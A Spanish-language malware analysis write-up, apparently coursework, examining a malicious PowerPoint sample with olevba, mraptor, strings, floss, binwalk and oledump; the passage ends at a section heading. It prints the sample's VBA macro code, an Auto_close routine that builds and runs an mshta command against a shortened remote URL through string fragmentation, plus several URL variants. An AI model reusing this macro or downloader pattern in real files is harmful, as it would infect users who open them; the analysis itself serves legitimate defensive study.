| X | Execute | Existe capacidad de ejecución de comandos o procesos. |

En este caso, la columna `Flags` muestra el valor `A-X`. Esto indica que **se han identificado dos capacidades relevantes: autoejecución y ejecución.** La ausencia de la marca `W` sugiere que `mraptor` no ha detectado, en esta revisión, operaciones evidentes de escritura de ficheros desde la macro.

**La marca `A`** se corresponde con la rutina `Auto_close` observada previamente con `olevba`. Esta función permite que el código `VBA` se ejecute automáticamente al producirse un evento asociado al documento, en este caso el cierre del archivo. Este comportamiento es habitual en documentos maliciosos, ya que permite iniciar la cadena de infección sin requerir una ejecución manual directa por parte del usuario más allá de interactuar con el documento.

**La marca `X`** se corresponde con el uso de la función Shell, identificada también durante la extracción del código `VBA`. Esta función permite ejecutar comandos del sistema operativo desde la macro. En la muestra analizada, la llamada a Shell recibe como argumento una cadena construida dinámicamente que termina formando un comando mshta dirigido a una URL remota.

Por tanto, el resultado de `mraptor` es coherente con el análisis manual del código `VBA`:
```
Auto_close → klijk → Shell(kokoko) → mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

El código de salida `20 - SUSPICIOUS` refuerza la clasificación de la muestra como sospechosa. Este valor indica que la herramienta ha encontrado patrones suficientes para considerar que la macro no debe tratarse como benigna sin análisis adicional.

<mark>**En conclusión**, `mraptor` confirma de forma resumida los indicadores ya observados en el análisis con `olevba`: la muestra contiene macros con ejecución automática y capacidad de lanzar comandos del sistema. La combinación de ambos elementos, junto con el uso de `mshta` y una URL acortada, mantiene un nivel de riesgo elevado y apoya la hipótesis de que el documento actúa como fase inicial de una cadena de infección.</mark>


# **4. Detección de ofuscacion**
El objetivo de esta fase es identificar técnicas utilizadas para ocultar comandos, URLs, llamadas a funciones peligrosas, objetos embebidos o cualquier otro artefacto que pueda formar parte de la cadena de ejecución.

En documentos PowerPoint, la ofuscación puede aparecer en distintos lugares según el formato del archivo. En ficheros clásicos `.ppt`, basados en `OLE/CFBF`, suele encontrarse principalmente en macros `VBA`, streams internos, objetos `OLE`, `ActiveX` o blobs binarios. En cambio, en formatos modernos como `.pptx` o `.pptm`, también puede aparecer en ficheros `XML`, relaciones externas, rutas internas del paquete `OOXML`, objetos incrustados o recursos multimedia manipulados.

No todas las muestras utilizan las mismas técnicas de ofuscación. Algunas emplean únicamente concatenación de cadenas en VBA, mientras que otras pueden recurrir a codificación Base64, hexadecimal, URL encoding, cadenas `UTF-16LE`, arrays numéricos, uso de variables intermedias, nombres de funciones aleatorios o carga de contenido remoto mediante herramientas legítimas del sistema operativo.

Por este motivo, antes de extraer artefactos de forma masiva, vamos a realizar una búsqueda inicial de indicios. Esta revisión permite localizar cadenas relevantes, orientar el análisis hacia los streams más interesantes y priorizar aquellos elementos que puedan contener lógica de ejecución, descarga o comunicación externa.


## **4.1 Búsqueda inicial de indicios de ofuscación**

### **A) Uso de strings para extraer cadenas ASCII**
Como primera aproximación, se utilizó strings para extraer cadenas ASCII del documento y filtrar aquellas que pudieran estar relacionadas con ejecución de comandos, descarga de contenido, objetos COM, scripts, librerías o conexiones externas.
```shell
└─$ strings -a 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt | grep -Ei "http|https|cmd|powershell|wscript|mshta|exe|dll|CreateObject|Shell|XMLHTTP|ADODB|Download" 
ShellV
C:\PROGRA~1\COMMON~1\MICROS~1\VBA\VBA7.1\VBE7.DLL
C:\Program Files\Common Files\Microsoft Shared\OFFICE16\MSO.DLL
VBE7.DLL
ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
Shell0 (ko
MSO.DLL#
```
La búsqueda devuelve varias cadenas relevantes. En primer lugar, aparece la cadena Shell, que coincide con el comportamiento observado previamente en las macros `VBA`. Esta función es especialmente importante porque permite ejecutar comandos del sistema operativo desde el propio documento Office.

También se identifican referencias a librerías legítimas de Microsoft Office y del entorno `VBA`, como `VBE7.DLL` y `MSO.DLL`. Estas cadenas no son maliciosas por sí mismas, ya que forman parte del funcionamiento normal de Office y del editor `VBA`. Sin embargo, su presencia confirma que el documento contiene componentes relacionados con `VBA`, lo cual es coherente con los resultados obtenidos mediante `oleid` y `olevba`.

El hallazgo más relevante es la cadena:
```
ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

Esta cadena corresponde a una parte del comando reconstruido previamente a partir de las macros. En el código `VBA`, la cadena no aparece completa de forma directa, sino dividida y concatenada mediante varias funciones auxiliares. La parte inicial del comando se construye con las funciones `opopo`, `mksmdas` y `jdsakdaw`, que devuelven respectivamente las letras `m`, `s` y `h`. Al unir estas cadenas con el fragmento visible, se obtiene el comando completo:
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```

Este resultado confirma una **técnica de ofuscación simple basada en fragmentación y concatenación de cadenas.** El objetivo de esta técnica es evitar que el comando completo aparezca directamente en texto claro dentro del documento, dificultando su detección mediante firmas simples o búsquedas estáticas básicas.

El uso de `mshta` es especialmente sospechoso. `mshta.exe` es una herramienta legítima de Windows utilizada para ejecutar aplicaciones HTML, pero en contextos maliciosos se emplea habitualmente como **técnica `Living off the Land` para descargar o ejecutar contenido remoto sin necesidad de incrustar un ejecutable directamente en el documento.**

Además, la `UR`L contiene el dominio acortado `j.mp`, lo que añade otro indicador de riesgo. Los acortadores de URL pueden ocultar el destino real del recurso remoto y dificultar el análisis estático. La presencia de `%20%20@` dentro de la URL también puede interpretarse como una forma adicional de ofuscación o manipulación de la cadena.

<mark>**En conclusión**, la búsqueda inicial de cadenas confirma que la muestra contiene indicios claros de ofuscación. Aunque parte del comando aparece en texto claro, su reconstrucción completa requiere analizar la lógica VBA. La combinación de Shell, mshta, una URL remota acortada y concatenación de cadenas refuerza la hipótesis de que el documento está diseñado para iniciar una cadena de infección mediante la ejecución de contenido externo.</mar>


----- 

### **B) Búsqueda de cadenas en formato UTF-16LE**
Adicionalmente, se realizó una búsqueda de cadenas en formato `UTF-16LE` mediante la opción `-el` de `strings`. Esta comprobación es importante en documentos Office, ya que muchas cadenas internas, nombres de objetos, referencias `COM` y fragmentos de código pueden almacenarse en codificación `Unicode little endian`, por lo que no siempre aparecen en una búsqueda `ASCII` convencional.

```shell
└─$ strings -a -el 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt | grep -Ei "http|https|cmd|powershell|wscript|mshta|exe|dll|CreateObject|Shell|XMLHTTP|ADODB|Download"
9#C:\PROGRA~1\COMMON~1\MICROS~1\VBA\VBA7.1\VBE7.DLL#Visual Basic For Applications
*\G{2DF8D04C-5BFA-101B-BDE5-00AA0044DE52}#2.8#0#C:\Program Files\Common Files\Microsoft Shared\OFFICE16\MSO.DLL#Microsoft Office 16.0 Object Library
ta http://%20%20@j.mp/asdakdasddodkasodkaos
ta http://%20%20@j.mp/asdakdaasdsddodkasodkaos
ta http://%20%20@j.mp/asdakdasxassddodkasodkaos
ta http://%20%20@j.mp/asdakdxassddodkasodkaos
ta http://%20%20@j.mp/asdakxassddodkasodkaos
ta http://%20%20@j.mp/asdakxasxssddodkasodkaos
ta http://%20%20@j.mp/asdakxasxsasjdsddodkasodkaos
ta http://%20%20@j.mp/asdakxxassddodkasodkaos
ta http://%20%20@j.mp/asdakxasddodkasodkaos
ta http://%20%20@j.mp/asdakxaxassddodkasodkaos
ta http://%20%20@j.mp/asdakxaxasxassddodkasodkaos
ta http://%20%20@j.mp/asdaxasdsddodkasodkaos
ta http://%20%20@j.mp/asdaxasdasdsddodkasodkaos
ta http://%20%20@j.mp/asdaxasdasxasdsddodkasodkaos
ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaosB
```
El resultado amplía los hallazgos obtenidos en la búsqueda `ASCII`. En primer lugar, vuelven a aparecer referencias a componentes legítimos del entorno `VBA` y Microsoft Office, como `VBE7.DL`L, `Visual Basic For Applications`, `MSO.DLL` y `Microsoft Office 16.0 Object Library`. Estas referencias son coherentes con la presencia de macros `VBA` dentro del documento y no constituyen por sí solas indicadores maliciosos.

El elemento más relevante es la aparición de múltiples cadenas con el mismo patrón:
```
ta http://%20%20@j.mp/...
```
Estas cadenas muestran distintas variantes de una `URL` acortada mediante el dominio `j.mp`. La repetición de `URLs` similares, con pequeñas variaciones en la ruta, puede indicar restos de versiones previas del código, pruebas realizadas durante la construcción del documento o artefactos conservados dentro de los **`streams VBA dentro del contenedor OLE del PowerPoint`**. También puede interpretarse como un intento de dificultar la identificación exacta del recurso remoto utilizado por la macro.

El prefijo ta no representa por sí solo el comando completo. Sin embargo, al correlacionarlo con el código `VBA` extraído previamente, se observa que forma parte de la cadena final construida por concatenación. Las funciones auxiliares devuelven las letras `m`, `s` y `h`, que unidas al fragmento ta reconstruyen el binario legítimo de Windows utilizado por la macro:
```
m + s + h + ta = mshta
```

Por tanto, aunque en las cadenas extraídas no aparezca directamente mshta como texto completo, el análisis de la lógica VBA permite reconstruir el comando final:
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```
Este hallazgo confirma una **técnica de ofuscación simple pero efectiva: el comando crítico no se almacena completo en una única cadena, sino que se divide en fragmentos distribuidos entre varias funciones.** De este modo, una búsqueda directa de `mshta` podría no detectar la cadena completa, mientras que una búsqueda más amplia de términos parciales, `URLs` o indicadores de ejecución sí permite localizar los fragmentos relevantes.

La presencia de múltiples `URLs` con el mismo patrón también debe considerarse un indicador de interés. Aunque no todas tienen por qué ser utilizadas durante la ejecución real, su existencia dentro del documento sugiere que el autor trabajó con varias variantes de la misma cadena o que parte del código fue modificado sin limpiar completamente los artefactos anteriores.

Desde el punto de vista de la ofuscación, se identifican los siguientes elementos:
| Indicador | Interpretación |
| -- | -- |
| Fragmentación de mshta |El comando se reconstruye mediante concatenación de funciones VBA. |
| Uso de URL acortada j.mp |Oculta el destino real del recurso remoto. |
| Presencia de %20%20@ |Posible manipulación u ofuscación de la URL. |
| Múltiples variantes de la URL |Posibles restos de pruebas, versiones anteriores o cadenas no utilizadas. |
| Cadenas en UTF-16LE |Confirma la necesidad de buscar tanto en ASCII como en Unicode. |

<mark>**En conclusión,** la búsqueda en `UTF-16LE` refuerza los resultados obtenidos previamente y confirma que el documento contiene cadenas relacionadas con la construcción de un comando mshta dirigido a una `URL` remota. La ofuscación observada no es compleja, pero sí está orientada a evitar que el comando completo aparezca de forma evidente en una búsqueda básica de cadenas.</mark>


## **4.2 Ofuscacion en macros VBA**
Tras la búsqueda inicial de cadenas, se revisó de forma específica el contenido `VBA` extraído con `olevba`. El objetivo de esta fase es identificar si las macros utilizan técnicas de ofuscación para ocultar instrucciones relevantes, como ejecución automática, llamadas a comandos del sistema, uso de objetos `COM`, descargas remotas o reconstrucción dinámica de cadenas.

Para facilitar la revisión, se redirigió la salida completa de olevba a un fichero de texto y posteriormente se filtraron palabras clave habituales en macros maliciosas:
``` 
└─$ olevba 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt > olevba.txt 
                                                                                                                                
└─$ grep -Ei "Auto|Open|CreateObject|Shell|PowerShell|XMLHTTP|ADODB|Base64|Chr|StrReverse" olevba.txt
Shell (kokoko)
Sub Auto_close()
|AutoExec  |Auto_close          |Runs when the Excel Workbook is closed       |
|Suspicious|Shell               |May run an executable file or a system       |
```

El filtrado identifica dos elementos especialmente relevantes: **la rutina `Auto_close` y la llamada a Shell.** Ambos indicadores ya habían sido señalados por `olevba`, pero esta búsqueda permite confirmar rápidamente que **la macro contiene lógica de autoejecución y capacidad de lanzar comandos del sistema operativo.**

**La rutina `Auto_close` actúa como punto de entrada automático de la macro:**
```
Sub Auto_close()
klijk
End Sub
```

**Este procedimiento invoca a la función `klijk`, que a su vez ejecuta la función Shell:**
```
Function klijk()

Shell (kokoko)
End Function
```
El uso de Shell es un indicador crítico, ya que **permite ejecutar comandos externos desde VBA.** En este caso, el argumento no aparece escrito directamente como una cadena fija, sino que se obtiene **mediante la función `kokoko`**. Esto introduce **una capa de ofuscación, ya que el comando final se construye de forma dinámica.**


La ofuscación observada en esta muestra es sencilla, pero efectiva frente a búsquedas básicas. **El comando `mshta` no aparece completo en el código como una única cadena, sino que se divide en varias funciones auxiliares:**
```
Function opopo()
opopo = "m"
End Function

Function mksmdas()
mksmdas = "s"
End Function

Function jdsakdaw()
jdsakdaw = "h"
End Function
```

**Estas funciones devuelven caracteres individuales que posteriormente se concatenan con el resto de la cadena:**
```
Function kokoko()

kokoko = opopo + mksmdas + jdsakdaw + "ta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos"
End Function
```

**Al reconstruir manualmente la cadena, se obtiene el siguiente comando:**
```
mshta http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```
Por tanto, **la técnica de ofuscación principal consiste en la fragmentación del comando mediante funciones VBA con nombres no descriptivos.** Los nombres `opopo`, `mksmdas`, `jdsakdaw`, `kokoko` y `klijk` no aportan significado funcional y parecen diseñados para **dificultar la lectura del código.**

No se observan en este filtrado otras técnicas de ofuscación más complejas, como uso evidente de `Chr`, `StrReverse`, `Base64`, `arrays numéricos`, `objetos XMLHTTP`, `ADODB.Stream` o `ejecución mediante PowerShell`. Sin embargo, la ausencia de estas técnicas no reduce la gravedad del hallazgo principal, ya que la macro contiene autoejecución y ejecución de comandos mediante Shell.

Desde el punto de vista técnico, los indicadores identificados son:
| Indicador	| Descripción | Riesgo |
| -- | -- | -- |
| Auto_close | Rutina de ejecución automática al cerrarse el documento | Alto |
| Shell | Permite ejecutar comandos del sistema operativo | Alto |
| kokoko | Construye dinámicamente el comando a ejecutar | Alto |
| Fragmentación de mshta | Oculta el comando real mediante concatenación | Alto |
| URL acortada j.mp | Dificulta conocer el destino real del recurso remoto | Alto |


<mark>**En conclusión:** El análisis de las macros `VBA` confirma la existencia de ofuscación basada en concatenación de cadenas y nombres de funciones no descriptivos. La finalidad aparente es ocultar parcialmente la ejecución de `mshta` contra una `URL` remota. Aunque la ofuscación no es avanzada, sí es suficiente para evitar que el comando completo aparezca de forma directa en búsquedas simples, por lo que resulta necesario reconstruir la lógica de la macro para comprender su comportamiento real.</mark>


## **4.3 Comprobacion de ofuscacion avanzada**
Como parte de la comprobación de ofuscación avanzada, se puede utilizar `floss` para intentar extraer cadenas ocultas, decodificadas o construidas dinámicamente. Esta herramienta resulta especialmente útil cuando se analizan binarios, shellcode o blobs extraídos de documentos maliciosos, ya que puede recuperar cadenas que no aparecen directamente mediante strings.

En el caso de documentos Office, floss puede ejecutarse sobre el fichero completo como una primera aproximación, aunque sus resultados deben interpretarse con cautela. Al tratarse de un documento PowerPoint en formato `OLE/CFBF` y no de un ejecutable `PE`, la herramienta puede no identificar rutinas de decodificación complejas. Por ello, su uso es más efectivo cuando se aplica posteriormente sobre streams, objetos OLE o artefactos binarios extraídos.

### **A) floss archivo**
Como primera comprobación de ofuscación avanzada, se ejecutó floss sobre el fichero PowerPoint completo. El objetivo era intentar recuperar cadenas ocultas, decodificadas dinámicamente, construidas en pila (stack strings) o generadas mediante rutinas simples de ofuscación.
```
┌──(venv-floss)-[~/tools] └─$ floss --format sc32 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
```
Guardamos el resultado del análisis en el fichero: [analisis_floss-M9T4.txt](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/4-M9T4/utiles/analisis_floss-M9T4.txt)  


En este caso, FLOSS no aporta nuevos `IOCs` relevantes respecto a lo ya observado con `strings` y `olevba`. El hallazgo más importante es negativo: la herramienta no recupera cadenas decodificadas, stack strings ni tight strings sobre el fichero `.ppt` completo.

La salida indica:
```
decoded strings: 0
stack strings: 0
tight strings: 0
```

Esto sugiere que, sobre el documento completo, no se identifican rutinas de decodificación ni mecanismos avanzados de construcción dinámica de cadenas que floss pueda resolver. Este resultado es coherente con lo observado previamente: la ofuscación principal no parece basarse en cifrado, shellcode ni algoritmos complejos, sino en fragmentación y concatenación de cadenas dentro del código VBA.


No obstante, `floss` sí aporta algo de contexto estructural: aparecen nombres internos del proyecto `VBA` y módulos como `morganhi`, `koximjj`, `calculator1`, `calculator2`, `calculator3`, `calculator4`, `calculator5`, `Module1b` y `Module2c`, que refuerzan la idea de un proyecto `VBA` con nombres poco descriptivos o señuelo, pero no cambian la conclusión técnica principal.


<mark>**En conclusión:** El análisis con floss no revela nuevas capas de ofuscación avanzada en la muestra. La técnica principal continúa siendo la concatenación de cadenas en VBA para reconstruir el comando mshta, junto con el uso de una URL remota parcialmente ofuscada mediante URL encoding.</mark>


### **B) binwalk archivo**
Como comprobación adicional de ofuscación avanzada y posibles datos embebidos, hemos usado `binwalk` sobre el fichero completo. Esta herramienta permite identificar firmas conocidas dentro de un archivo, como cabeceras de ficheros comprimidos, ejecutables, imágenes, objetos `OLE`, datos `zlib`, blobs binarios u otros artefactos incrustados.

En documentos Office maliciosos, `binwalk` resulta útil para detectar si el archivo contiene payloads embebidos, datos comprimidos o estructuras binarias ocultas que no sean evidentes mediante herramientas específicas de Office.


El objetivo de esta comprobación no es analizar las macros VBA, sino localizar posibles artefactos binarios adicionales dentro del contenedor. Entre los elementos de interés se encuentran:
- Cabeceras MZ, asociadas a ejecutables PE,
- cabeceras PK, asociadas a archivos ZIP,
- cabeceras OLE embebidas,
- datos comprimidos,
- scripts o blobs binarios y
- recursos incrustados no visibles directamente desde PowerPoint.


En el caso de esta muestra, el análisis principal ya ha identificado la funcionalidad sospechosa dentro de las macros `VBA`. Por tanto, binwalk debe interpretarse como una comprobación complementaria para descartar la presencia de payloads o datos embebidos adicionales.
```
└─$ binwalk 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 

DECIMAL       HEXADECIMAL     DESCRIPTION
---
```
El resultado no muestra firmas adicionales dentro del fichero. Es decir, `binwalk` no identifica cabeceras reconocibles de ejecutables PE, archivos ZIP, datos comprimidos, imágenes u otros artefactos binarios embebidos a partir de su base de firmas.

Este resultado sugiere que, al menos a nivel de análisis superficial con `binwalk`, la muestra no contiene un payload binario claramente incrustado ni estructuras comprimidas fácilmente reconocibles. Por tanto, no se obtienen nuevos artefactos para extraer mediante offsets ni se identifican blobs adicionales que requieran carving manual en esta fase.

La ausencia de resultados en binwalk no descarta comportamiento malicioso. En este caso, el análisis previo ya ha mostrado que la funcionalidad sospechosa principal reside en las macros VBA, concretamente en la construcción y ejecución de un comando mshta dirigido a una URL remota. Por tanto, el documento parece actuar como lanzador o downloader, sin necesidad de almacenar necesariamente el payload final dentro del propio fichero PowerPoint.

<mark>**En conclusión:** binwalk no aporta nuevos hallazgos relevantes en esta muestra. No se detectan firmas de artefactos embebidos adicionales, por lo que el análisis debe continuar centrado en las macros VBA, la URL reconstruida y la posible cadena de ejecución asociada.</mark>


### **C) Se buscan codificaciones**
Se buscan codificaciones como Base64, hexadecimal textual, `UTF-16LE`, `URL encoding`, secuencias `\xNN`, `XOR` simple, `zlib` o cadenas partidas.


Esta fase tiene carácter complementario, ya que el análisis previo con `olevba` y `strings` ya ha identificado la técnica principal de ofuscación: fragmentación y concatenación de cadenas VBA para reconstruir el comando `mshta`.

En esta muestra resulta especialmente relevante la búsqueda de URL encoding, ya que la URL contiene la secuencia `%20%20`. Por ello, se emplea una expresión menos restrictiva que permita detectar dos o más secuencias `%XX` consecutivas, en lugar de exigir una cadena larga de caracteres codificados.


En primer lugar, **buscamos cadenas largas compatibles con el alfabeto `Base64`:**
```
└─$ grep -aEo "([A-Za-z0-9+/]{40,}={0,2})" 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
D0D27C639963999C67649970C0E8A2B2D6269941C86B927E48E7F46BF694D40681273CBA
```
El resultado devuelve una cadena larga compuesta únicamente por caracteres hexadecimales. Aunque la expresión regular utilizada puede detectar posibles cadenas `Base64`, este hallazgo no debe interpretarse automáticamente como `Base64` válido ni como un payload codificado. La cadena también encaja con un patrón hexadecimal textual o con un identificador interno del documento. No se observan, en esta salida, cadenas `Base64` evidentes con relleno típico `=` ni fragmentos que permitan inferir directamente la presencia de contenido decodificable relevante.

A continuación, **buscamos secuencias del tipo `\xNN`**, habituales en algunos scripts o payloads representados como bytes escapados:
```
└─$ grep -aEo "(\\x[0-9a-fA-F]{2}){5,}" 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
```
La búsqueda no devuelve resultados, por lo que no se identifican secuencias largas de bytes escapados en formato `\xNN`. Esto reduce la probabilidad de que el documento contenga shellcode o scripts embebidos representados mediante este tipo de codificación textual.

Finalmente, **buscamos secuencias de URL encoding**. En esta muestra esta comprobación resulta especialmente relevante, ya que la URL reconstruida previamente contiene la secuencia %20%20:
```                                                                                                                                                     
└─$ grep -aEo "(%[0-9a-fA-F]{2}){2,}" 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt

%20%20
```
El resultado confirma la presencia de `%20%20`, que corresponde a dos espacios codificados mediante `URL encoding`. Esta secuencia ya había sido observada dentro de la URL utilizada por la macro:
```
http://%20%20@j.mp/asdaxasdasxasdasdsddodkasodkaos
```
La inclusión de `%20%20@` en la `URL` puede interpretarse como un intento de manipulación u ofuscación de la cadena. Este tipo de construcción puede dificultar la lectura manual de la `URL`, alterar su representación visual o interferir con análisis simples basados en patrones.


**Los resultados de esta fase pueden resumirse de la siguiente forma:**
| Comprobación |	Resultado	| Interpretación |
| -- | -- | -- |
| Base64 | Una cadena compatible con el patrón, pero formada por caracteres hexadecimales | No concluyente; no se identifica Base64 claramente útil |
| Secuencias \xNN | Sin resultados | No se observan bytes escapados en texto |
| URL encoding | %20%20 | Confirmación de ofuscación parcial en la URL |
| Cadenas partidas | Confirmado previamente en VBA | Técnica principal de ofuscación de la muestra |

<mark>**En conclusión:** Esta comprobación no revela nuevas capas de ofuscación avanzada como `Base64` claramente decodificable, secuencias `\xNN` extensas o shellcode representado como texto. El hallazgo relevante sigue siendo el uso de cadenas partidas en `VBA` para reconstruir `mshta`, junto con el uso de URL encoding parcial en la dirección remota.</mark>


## **4.4 Conclusión del análisis de ofuscación**
El análisis de ofuscación no identifica capas avanzadas adicionales como `Base64` claramente decodificable, secuencias `\xNN`, blobs comprimidos, payloads embebidos detectables con `binwalk` o cadenas decodificadas por `floss`.

La técnica principal observada es la fragmentación y concatenación de cadenas dentro de macros VBA. Esta técnica permite reconstruir dinámicamente el comando `mshta` sin que aparezca completo como cadena directa en el documento.

También se confirma el uso parcial de URL encoding mediante la secuencia `%20%20`, presente en la URL utilizada por la macro. En conjunto, la ofuscación es sencilla, pero suficiente para dificultar búsquedas estáticas básicas.

A partir de estos resultados, el análisis debe continuar con la extracción selectiva de objetos y artefactos, priorizando los **streams VBA y cualquier objeto OLE asociado.**


# **5. Extracción de objetos y artefactos**
Una vez finalizada la fase de identificación de ofuscación, el siguiente paso consiste en revisar la estructura interna del documento y extraer, de forma selectiva, los artefactos que puedan aportar información relevante al análisis.

En documentos PowerPoint clásicos `.ppt` o `.pps`, basados en formato `OLE/CFBF`, el contenido no se encuentra organizado como un paquete `ZIP`, sino como un conjunto de storages y streams internos. Estos streams pueden contener metadatos, información del proyecto `VBA`, macros, objetos embebidos, estructuras internas de Office u otros datos binarios.

La extracción no debe realizarse de forma indiscriminada. Primero se debe enumerar la estructura del contenedor, identificar los streams relevantes y priorizar aquellos que contengan macros, objetos OLE, datos binarios sospechosos o indicadores previamente localizados durante el análisis de cadenas y ofuscación.

En esta muestra, las fases anteriores han confirmado que el comportamiento sospechoso principal se encuentra en las macros `VBA`. Por tanto, la extracción debe centrarse especialmente en los streams del proyecto `VBA` y en los módulos marcados por `oledump.py` como macros.

## **5.1 Extracción en .ppt/.pps OLE**
Para enumerar los streams internos del documento utilizamos `oledump.py`, una herramienta especialmente útil para analizar contenedores `OLE`. Esta utilidad permite listar los streams disponibles, identificar módulos `VBA` y seleccionar streams concretos para visualizarlos o extraerlos de forma individual.
```
└─$ python3 oledump.py ~/Escritorio/muestras-malware/ENIIT/M9T4/5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt 
  1:       464 '\x05DocumentSummaryInformation'
  2:     43624 '\x05SummaryInformation'
  3:       673 'PROJECT'
  4:       143 'PROJECTwm'
  5: M    1263 'VBA/Morgan'
  6:      3286 'VBA/_VBA_PROJECT'
  7:      3892 'VBA/__SRP_0'
  8:       201 'VBA/__SRP_1'
  9:       310 'VBA/__SRP_2'
 10:       156 'VBA/__SRP_3'
 11:       356 'VBA/__SRP_4'
 12:       156 'VBA/__SRP_5'
 13:       646 'VBA/__SRP_6'
 14:       156 'VBA/__SRP_7'
 15:       310 'VBA/__SRP_8'
 16:       156 'VBA/__SRP_9'
 17:       310 'VBA/__SRP_a'
 18:       156 'VBA/__SRP_b'
 19:       311 'VBA/__SRP_c'
 20:       156 'VBA/__SRP_d'
 21:       603 'VBA/dir'
 22: M    1292 'VBA/gorcia1'
 23: M    1392 'VBA/gorcia2'
 24: M    1817 'VBA/gorcia3'
 25: M    1296 'VBA/gorcia4'
 26: M    1309 'VBA/gorcia5'
```
La salida muestra la existencia de un proyecto VBA embebido dentro del documento. Los streams marcados con la letra `M` corresponden a módulos `VBA` identificados por `oledump.py`. En esta muestra, los módulos relevantes son los siguientes:


La salida muestra un proyecto `VBA` embebido dentro del documento. Los streams marcados con la letra `M` corresponden a módulos `VBA` identificados por `oledump.py`. En este caso, los módulos relevantes son:
| Stream | Módulo VBA    |     Tamaño | Relevancia                                        |
| -----: | ------------- | ---------: | ------------------------------------------------- |
|      5 | `VBA/Morgan`  | 1263 bytes | Contiene la rutina de autoejecución `Auto_close`. |
|     22 | `VBA/gorcia1` | 1292 bytes | Función auxiliar para construir el comando.       |
|     23 | `VBA/gorcia2` | 1392 bytes | Contiene la llamada a `Shell`.                    |
|     24 | `VBA/gorcia3` | 1817 bytes | Construye la cadena con `mshta` y la URL remota.  |
|     25 | `VBA/gorcia4` | 1296 bytes | Función auxiliar para construir el comando.       |
|     26 | `VBA/gorcia5` | 1309 bytes | Función auxiliar para construir el comando.       |


Además de los módulos `VBA`, aparecen streams propios de la estructura del proyecto, como `PROJECT`, `PROJECTwm`, `VBA/_VBA_PROJECT`, `VBA/dir` y múltiples `streams VBA/__SRP_*`. Estos elementos forman parte del proyecto `VBA` y de su representación interna dentro del contenedor `OLE`. No todos contienen código fuente legible, pero pueden ser útiles para correlacionar la estructura interna del proyecto o revisar posibles inconsistencias si se sospecha manipulación avanzada.

Adicionalmente, se comprobó la estructura con la opción `--storages`:
```
└─$ python3 oledump.py --storages ~/Escritorio/muestras-malware/ENIIT/M9T4/5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt
```
No se incluye la salida completa para evitar redundancia, ya que en esta muestra la opción `--storages` no revela estructuras adicionales relevantes más allá de `Root Entry` y el `storage VBA`. Esta comprobación confirma que los módulos de macros se agrupan dentro del `storage VBA` y que no se observan `storages` sospechosos relacionados con objetos `OLE` embebidos, como `ObjectPool`, `Ole`, `Package` o elementos similares.

La presencia de varios módulos `VBA` con nombres no descriptivos, como `gorcia1`, `gorcia2`, `gorcia3`, `gorcia4`, `gorcia5` y `Morgan`, es coherente con la ofuscación observada previamente. Estos nombres no indican una funcionalidad legítima clara y parecen utilizados para dificultar la lectura directa del flujo de ejecución.

También se probó la herramienta `oleobj` para comprobar si existían objetos `OLE` embebidos extraíbles:
```
└─$ oleobj 5e3cb24d52ef617a4dca51ece6721a0745a17909f1b7fd4a54a59ceba7ea32b6.ppt -d extraccion-ppt
```
La ejecución no generó ficheros dentro del directorio de salida. Esto indica que `oleobj` no identificó objetos `OLE` embebidos, paquetes o artefactos extraíbles en la muestra. Este resultado es coherente con la salida de `oledump.py`, donde los elementos relevantes pertenecen principalmente al proyecto `VBA` y no a objetos incrustados independientes.

En resumen, oledump.py muestra principalmente los siguientes elementos:
```
DocumentSummaryInformation
SummaryInformation
PROJECT
PROJECTwm
VBA/
VBA/Morgan
VBA/gorcia1
VBA/gorcia2
VBA/gorcia3
VBA/gorcia4
VBA/gorcia5
VBA/dir
VBA/__SRP_*
``` 

-------------------------------

## **5.2 Extraemos las macros**
